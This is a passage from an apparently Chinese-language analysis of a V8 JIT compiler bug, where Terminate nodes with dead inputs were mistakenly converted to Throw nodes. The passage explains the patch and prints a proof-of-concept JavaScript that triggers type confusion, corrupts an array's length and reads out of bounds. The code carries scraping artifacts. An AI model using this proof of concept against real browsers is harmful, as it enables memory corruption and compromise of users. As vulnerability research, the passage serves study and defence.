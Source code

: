 可以看到修复过的部分是加了一个判断条件，且是&amp;&amp;的关系，也就是说判断更强了，之前会满足条件进入该分支的情况如今可能会走向另一分支。

通过作者的描述得知这里是错误的把一些有DeadInput的Terminate节点给换成了Throw 节点，从改动也可以看出，特意使得非Terminate的带有DeadInput的节点才会被转化为Throw节点，究其原因，是因为Terminate节点并非实际控制流节点。

以上带来的后果就是，我们可以在check map(检查当前对象是否是预期对象)之前将-1写入对应位置。单这么说可能还是不理解漏洞是怎么利用的，拿poc来分析一遍。

```
class classA `{`
    constructor() `{`
        this.val = 0x4242;
        this.x = 0;
        this.a = [1, 2, 3];
    `}`
`}`
class classB `{`
    constructor() `{`
        this.val = 0x4141;
        this.x = 1;
        this.s = "dsa";
    `}`
`}`
var A = new classA();
var B = new classB() function f(arg1, arg2) `{`
    if (arg2 == 41) `{`
        return 5;
    `}`
    var int8arr = new Int8Array(10);
    var z = arg1.x;
    // new arr length
    arg1.val = -1;
    int8arr[1500000000] = 22;
    async
    function f2() `{`
        const nothing = `{``}`;
        while (1) `{`
            //print("in loop");
            if (abc1 | abc2) `{`
                while (nothing) `{`
                    await 1;
                    print(abc3);
                `}`
            `}`
        `}`
    `}`
    f2();
`}`
var arr = new Array(10);
arr[0] = 1.1;
var i;
// this may optimize and deopt, that's fine
for (i = 0; i &lt; 20000; i++) `{`
    f(A, 0);
    f(B, 0);
`}`
// this will optimize it and it won't deopt
// this loop needs to be less than the previous one
for (i = 0; i &lt; 10000; i++) `{`
    f(A, 41);
    f(B, 41);
`}`
// change the arr length
f(arr, 0);
alert("LENGTH: " + arr.length.toString());
alert("value at index 12: " + arr[12].toString());
```
